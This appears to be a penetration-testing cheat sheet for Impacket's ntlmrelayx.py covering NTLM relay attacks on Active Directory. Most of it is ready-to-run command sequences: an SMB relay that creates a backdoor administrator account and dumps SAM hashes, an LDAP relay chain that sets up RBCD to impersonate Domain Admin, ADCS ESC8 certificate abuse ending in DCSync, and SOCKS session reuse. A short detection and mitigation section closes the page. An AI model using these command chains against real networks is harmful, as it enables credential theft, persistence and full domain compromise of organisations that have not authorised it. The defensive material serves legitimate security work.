




## TL;DR

`ntlmrelayx.py` is an Impacket tool that **intercepts NTLM authentication** from a victim and replays it to a different target service — all without ever knowing the victim's password. The attacker sits in the middle: the victim authenticates to the attacker, and the attacker uses that authentication credential to access another host or service.

The power of ntlmrelayx lies in **what it does after a successful relay** — automatic post-relay attacks like SAM dumping, RBCD delegation setup, LDAP enumeration, and ADCS certificate requests.

---

## What ntlmrelayx.py Does

| Capability | Details |
|---|---|
| Relay SMB auth → SMB | Execute commands, dump SAM, enumerate shares on target |
| Relay SMB/HTTP auth → LDAP/LDAPS | Create computer accounts, set RBCD, dump domain data, modify AD objects |
| Relay to ADCS HTTP endpoint | Request a certificate for the victim machine account (ESC8) |
| Relay to MSSQL | Execute queries or xp_cmdshell as the relayed user |
| Relay to HTTP/HTTPS | Generic HTTP relay for web services supporting NTLM auth |
| Multi-target relay | Relay the same authentication to multiple targets simultaneously |
| SOCKS proxy mode | Keep the relayed session alive for use with other tools (proxychains) |
| Auto-dump SAM | `-dump-hashes` after successful SMB relay |
| Auto-create machine account | `--add-computer` when relaying to LDAP |
| RBCD setup | `--delegate-access` — configure Resource-Based Constrained Delegation |
| LAPS dump | `--dump-laps` when relaying to LDAP |
| IPv6 support | Works with IPv6 NTLM relay scenarios |

---

## What ntlmrelayx.py Cannot Do

| Limitation | Why |
|---|---|
| Relay to a host with SMB signing enabled | Signed sessions cannot be replayed — the relay is cryptographically rejected |
| Relay to LDAP with signing + channel binding | LDAP signing or EPA (channel binding) prevents relay |
| Relay NTLM to Kerberos-only services | Kerberos is not NTLM — different auth protocol entirely |
| Relay back to the originating host | SMB self-relay is blocked since MS08-068 (some HTTP→SMB edge cases remain) |
| Work without a victim initiating NTLM auth | Requires a coercion method (Responder, PetitPotam, PrinterBug, etc.) |
| Relay NTLMv1 with MIC | Modern targets require NTLMv2 with MIC — some old coercion scenarios break this |
| Perform the attack silently in all cases | LDAP relay operations (object creation, attribute modification) are audited |
| Crack or recover the victim's password | The relayed credential is used in real-time — the plaintext is never recovered |

---

## Core Concept: How NTLM Relay Works



> The attacker never sees the victim's password. The NTLM exchange is forwarded intact — the cryptographic proof of identity is valid because it was generated by the real victim.

---

## Attack Scenario 1: SMB Relay → Command Execution

**Requirements:** Target has SMB signing disabled (common on workstations, less common on DCs)



```bash
# Start Responder (disable SMB and HTTP — ntlmrelayx handles these)
sudo responder -I eth0 -d -v --lm

# Relay to a single target with command execution
ntlmrelayx.py -t smb://10.10.10.50 -smb2support -c "net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"

# Relay and dump SAM hashes
ntlmrelayx.py -t smb://10.10.10.50 -smb2support --dump-hashes

# Relay to multiple targets from a file
ntlmrelayx.py -tf targets.txt -smb2support --dump-hashes
```

---

## Attack Scenario 2: LDAP Relay → RBCD → Full Domain Compromise

**Requirements:** LDAP signing disabled (default on older DCs), attacker can coerce a DC

This is one of the most impactful relay chains: coerce a DC to authenticate → relay to LDAP on another DC → configure RBCD → impersonate Domain Admin.



```bash
# Step 1+2: Coerce + relay to LDAP with RBCD setup
ntlmrelayx.py -t ldap://dc2.corp.local --delegate-access --add-computer

# Step 2 gives you:
# [*] Created machine account: evil$
# [*] Set msDS-AllowedToActOnBehalfOfOtherIdentity on DC1$

# Step 5: Get impersonation TGS
getST.py corp.local/evil$:'evil123' -spn cifs/dc1.corp.local -impersonate Administrator -dc-ip 10.10.10.100

# Use the ticket
export KRB5CCNAME=Administrator.ccache
secretsdump.py -k -no-pass dc1.corp.local
```

---

## Attack Scenario 3: ADCS ESC8 — Relay to HTTP Enrollment

**Requirements:** ADCS Web Enrollment (`/certsrv`) is running without EPA, machine account has enroll rights on a template



```bash
# Start the relay targeting ADCS enrollment
ntlmrelayx.py -t http://ca.corp.local/certsrv/certfnsh.asp --adcs --template DomainController

# After relay, you get a base64 cert. Decode and use:
# Convert base64 cert → .pfx, then:
gettgtpkinit.py -pfx-base64 <base64> corp.local/dc1$ dc1.ccache
export KRB5CCNAME=dc1.ccache

# Get NT hash via UnPAC-the-hash
getnthash.py -key <AS-REP enc key> corp.local/dc1$

# Or directly DCSync
secretsdump.py -just-dc corp.local/dc1$@dc1.corp.local -hashes :<NT_HASH>
```

---

## SOCKS Mode — Keep Sessions Alive

SOCKS mode keeps the relayed session open so you can use it with any tool via proxychains.

```bash
# Start relay in SOCKS mode
ntlmrelayx.py -tf targets.txt -smb2support -socks

# In another terminal — list active SOCKS sessions
ntlmrelayx> socks

# Use the session with proxychains
proxychains secretsdump.py corp.local/victim@10.10.10.50 -no-pass
proxychains smbclient.py //10.10.10.50/C$ -no-pass
```

---

## Checking SMB Signing

Before running a relay attack, identify hosts where SMB signing is not required:

```bash
# Check signing on a list of hosts
nmap --script smb2-security-mode -p 445 -iL hosts.txt

# With CME
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets_no_signing.txt

# With netexec
netexec smb 10.10.10.0/24 --gen-relay-list targets_no_signing.txt
```

Hosts showing `Message signing enabled but not required` are valid relay targets.

---

## Common Options

| Flag | Description |
|---|---|
| `-t <target>` | Single relay target (e.g. `smb://10.0.0.1`, `ldap://dc.corp.local`) |
| `-tf <file>` | File of targets |
| `-smb2support` | Enable SMBv2 support |
| `-c "<cmd>"` | Command to execute after SMB relay |
| `--dump-hashes` | Dump SAM hashes after SMB relay |
| `--delegate-access` | Set up RBCD after LDAP relay |
| `--add-computer [name]` | Create a new computer account via LDAP relay |
| `--adcs` | ADCS ESC8 mode — request a certificate |
| `--template <name>` | Certificate template to request |
| `--dump-laps` | Dump LAPS passwords via LDAP relay |
| `-socks` | Enable SOCKS proxy mode |
| `-6` | Enable IPv6 |
| `--remove-mic` | Remove MIC from NTLM messages (needed for some relay scenarios) |

---

## Detection & Defense

### Blue Team Indicators

| Event ID | Source | What to look for |
|---|---|---|
| 4624 | Security | Type 3 network logon from an unexpected host |
| 4741 | Security | Computer account created (RBCD setup) |
| 5136 | Security | AD object modified — watch `msDS-AllowedToActOnBehalfOfOtherIdentity` |
| 4886 | Security | Certificate requested (ADCS) — check if the requester IP matches the account |

### Mitigations

```powershell
# Enable SMB signing on all hosts (prevents SMB relay)
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force

# Enable LDAP signing on DCs
# GPO: Computer Configuration → Windows Settings → Security Settings →
#      Local Policies → Security Options →
#      "Domain controller: LDAP server signing requirements" → Require signing

# Enable LDAP channel binding (prevents LDAP relay via NTLM)
# Set LdapEnforceChannelBinding = 2 on DCs
reg add "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" /v LdapEnforceChannelBinding /t REG_DWORD /d 2 /f

# Disable NTLM where possible (use Kerberos)
# GPO: Network security: Restrict NTLM: Incoming NTLM traffic → Deny all accounts
```

- Enable **SMB signing** on all hosts (most impactful single mitigation)
- Enable **LDAP signing + channel binding** on all DCs
- Enable **EPA (Extended Protection for Authentication)** on ADCS Web Enrollment
- Deploy **Microsoft Defender for Identity (MDI)** — detects relay patterns and RBCD abuse
- Restrict or disable **NTLM** where Kerberos is available

---

## References

- [Impacket — ntlmrelayx.py source](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [byt3bl33d3r — Practical guide to NTLM relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
- [MITRE ATT&CK — T1557.001 LLMNR/NBT-NS Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001/)
- [Dirk-jan Mollema — ESC8 relay attack](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
